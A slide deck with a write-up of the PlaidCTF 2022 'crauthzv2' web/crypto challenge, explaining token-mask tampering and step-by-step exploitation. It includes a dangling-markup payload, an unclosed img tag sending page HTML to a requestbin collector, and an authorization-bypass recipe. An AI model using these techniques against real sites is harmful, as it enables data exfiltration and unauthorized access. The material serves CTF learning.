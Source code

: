 ```yaml
---
marp: true
paginate: true
header: 'crauthzv2 PlaidCTF 2022'
footer: 'Dosenpfand'
---
```


# crauthzv2 PlaidCTF 2022

---

## Disclaimer
- Not solved during the CTF
- Challenge author published intended solution and parts of the source code

---

## Task Description
- Categories: web, crypto
- Link to web app (job board), no source code
- From the task description
    > [...] What if we used cryptography to do our permissions checks instead?
    > Hint: What control do you have over the values pointed to by the mask?
- From a job posting on the web app
    > [...] Share your resume on THE GAUNTLET with "jobs" for consideration. We'll scrape any images in your resume; [...]

---

### Analysis - CRID I
- Typical link:
    ```
    http://crauthz.chal.pwni.ng/view?id=crid%3ABZLBNnxQ92%2BcAS1SHrCQ5a86EJTMHkTRUIroXYWk080r
    ```
- Constantly changing
- Format: `url_encode("crid:" + base64_encode(data))`
- `data` always starts with `5` or `7`

---

### Analysis - CRID II
- Error when modifying CRID
- starting with 5:
    > Error: Invalid ID (with parsed mask ['user_id', 'purpose']) for user id "1158", csrf "f447f3c65b49aa05957aca523c1e1828", purpose "view"

- 7: `['user_id', 'csrf', 'purpose'])`
- 3: `['user_id', 'csrf']`
- 6: `['csrf', 'purpose']`

---

### Analysis - CRID III
- 1st byte of `crid` is `mask`
- Changing the mask and adapting the `csrf` cookie accordingly validates
- E.g. Change from `5` to `3` and set `csrf` cookie to user id.

---

### Analysis - Image Sharing
- Sharing an unclosed HTML `img` tag
    ```
    <img src="http://requestbin.net/r/5vn3gc7l?q=
    ```
- We get some HTML succeeding the tag
    ```
    <b>Internal listing - security engineer</b>
    (Job) by jobs
    <a href=/p/unpin_listing?listing_id=crid:Bc6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ==
    &ret=crid:BwK08K/aJC4FC+b5LbL9eAi/47baWgNCkVU7uijNPSj0
    >Unpin</
    ```

---

### Solution I
1. Share resume with user `jobs` with unclosed image tag
2. Get an `unpin` URL for internal job listing
3. Modify its `crid`'s 1st byte from `5 = ['user_id', 'purpose']` to `6 = ['csrf', 'purpose']`
4. Use it to pin the listing: Request `/pin_listing?listing_id=crid%3A_MODIFIED_CRID_1` with cookie `csrf=pin_listing`

---

### Solution II
5. Pinned listing not viewable due to permission checks, but we have a `unpin` `crid` now
6. Change it from `5 = ['user_id', 'purpose']` to ` 3 = ['user_id', 'csrf']`
7.  Use it to share the listing with our user: Request `/share_listing?id=crid%3A_MODIFIED_CRID_2&other=our_user` with cookie `csrf=pin_listing`
8. View the internal listing, flag is in the comments

---

### References
- Intended solution: https://gist.github.com/mserrano/44031a01afb53f98536af17f6ba9eedd
- Writeup: https://github.com/Dosenpfand/ctf-writeups/blob/master/writeup_2022_PlaidCTF_crauthzv2.md

---

### Implementation

---

#### CRID

```
+--------------+
| "crid:"      |
+--------------+---\
| context_mask |   |
+--------------+   |
| nonce        |   |
+--------------+   + base64 encoded
| encrypt(id)  |   |
+--------------+   |
| tag          |   |
+--------------+---/
```

---

#### Mask

```
+---------+---------+------+---------+
| 7 ... 3 | 2       | 1    | 0       |
+---------+---------+------+---------+
| X       | PURPOSE | CSRF | USER_ID |
+---------+---------+------+---------+
```

---

#### Associated Data

```
+---------+
| "id"    |
+---------+---\
| user_id |   |
+---------+   |
| csrf    |   + depending on context mask
+---------+   |
| route   |   |
+---------+---/
```
